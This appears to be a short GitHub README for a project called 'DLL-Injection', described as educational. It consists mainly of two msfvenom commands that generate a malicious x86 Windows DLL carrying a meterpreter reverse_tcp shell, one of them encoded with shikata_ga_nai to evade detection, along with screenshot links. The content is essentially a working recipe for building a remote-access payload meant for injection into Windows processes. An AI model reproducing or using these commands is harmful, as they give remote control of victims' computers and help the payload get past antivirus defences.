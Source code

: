 # DLL-Injection
simple DLL Injection; made for educational purposes

### crafiting a x86 malicious DLL with sgnx86 enconding
> msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=443 -a x86 --platform windows -b '\x00' -e x86/shikata_ga_nai -f dll -o dll_sgnx86.dll
![alt text](https://i.imgur.com/K7wLZmC.png)

### crafiting a x86 malicious DLL without enconding
> msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=443 -a x86 --platform windows -f dll -o dll_x86.dll
![alt text](https://i.imgur.com/DN81LZr.png)
